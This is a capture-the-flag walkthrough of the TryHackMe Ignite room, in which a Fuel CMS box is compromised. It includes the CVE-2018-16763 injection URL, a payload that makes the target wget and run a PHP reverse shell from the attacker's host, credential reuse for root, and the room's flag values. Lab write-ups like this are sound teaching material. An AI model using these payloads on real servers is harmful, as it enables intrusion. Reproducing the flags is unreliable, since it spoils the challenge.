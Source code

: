```yaml
---
layout: default
---
```


# Ignite CTF
### This is a walkthrough of the [Ignite CTF](https://tryhackme.com/room/ignite)
* * *
It is a classic room where you exploit a Linux box, running vulnerable CMS and owning the machine.
<br>OK lets begin!

I always like to export the ip address of the target to a env variable, because I don't need to type the whole address everytime.

>export ip=10.10.28.46

Ok lets start an Nmap scan
>$ nmap -sC -sV -oN nmap.txt $ip

```
# Nmap 7.80 scan initiated Wed Jun 24 12:30:40 2020 as: nmap -sC -sV -oN nmap.txt 10.10.28.46
Nmap scan report for 10.10.28.46
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 24 12:30:54 2020 -- 1 IP address (1 host up) scanned in 13.52 seconds
```
We can see that only port 80/tcp is open ... <br>
If we open it in a web browser there is a default FuelCMS instance running,
lets check out the admin panel `/fuel`. It appears that it has the default admin:admin credentilas.
```
$ip/fuel
admin:admin

maybe could be solved by uploading reverse php shell via the cms control panel since we know the creds ...
```
I tried to upload a PHP reverse shell manually, via the admin panel, but failed.
I ran searchsploit against Fuel CMS and found out an interesting RCE (CVE 2018-16763) that could help me out to gain further access ...

```
Fuel CMS RCE < 1.4.1 (1.4 in our case)
CVE 2018-16763 

exploit(code='ls -la'):

$ip/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('ls -al')%2b'

credits: https://www.youtube.com/watch?v=wLWqkULvefU
```
Here i use the RCE to upload a reverse PHP shell, that I have hosted on my Kali box using SimpleHTTP server.

```
reverse shell upload and execute

http://10.10.28.46/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('wget 10.5.2.55:8000/reverse.php -O reverse.php')%2b'

10.10.28.46/reverse.php
```
Here I have found the User flag
```
User.txt
6470e394cbf6dab6a91682cc8585059b
```
I started enumerating, with linpeas, etc ...<br>
Couldn't find any privilage escalation vectors.
<br>I have spend a lot of time going around in circles. At this point I started trying out everything i could think of. <br>
I googled FuelCMS Database Configuration and found out [this article](https://www.codeigniter.com/user_guide/database/configuration.html) <br>
They were talking about the MySQL DB, and I assume the app needs to talk with the DB, to do so it need to get authenticated with the DB using some kind of credentials...
I have read that the configuration file is stored in app/config/database.php. <br>
At first i couldn't find it, so i ran a quick `find`.
```
$ find / -name database.php 2>/dev/null
/var/www/html/fuel/application/config/database.php
```
* * *
## A QUICK TIP
>If we take a look at the end of the `find` command i have used above, `2>/dev/null` is baiscally telling the shell to send [`Stderr` (Standart error)](https://www.computerhope.com/jargon/s/stderr.htm) to /dev/null.
> * 0:stdin
> * 1:stdout
> * 2:stderr
>
>That way when we search through the `/` directory there are many files that we can't open simply because we do not have the permissions to. <br>
>So we use `2>/dev/null` to NOT print the error messages we get. <br>
>We want to see only the relevant information and not a shell filled up with `find: ‘/root’: Permission denied`

* * *

### If we take a look at the default page of Fuel CMS, we can see that it is right in front of us, but yeah ...

<a href="pics/ignite/pic1.png" target="_blank"><img src="pics/ignite/pic1.png"></a>

I have found root creds in the file. Now lets check for credential reuse. And I am root, lets get the flag ...

```
'username' => 'root',
'password' => 'mememe',
```
```
Root.txt
b9bbcb33e11b80be759c4e844862482d
```

### You can find more notes on TryHackMe CTFs at my [GitHub](https://github.com/P4nd4233/tryHackMe_CTFs_Notes) .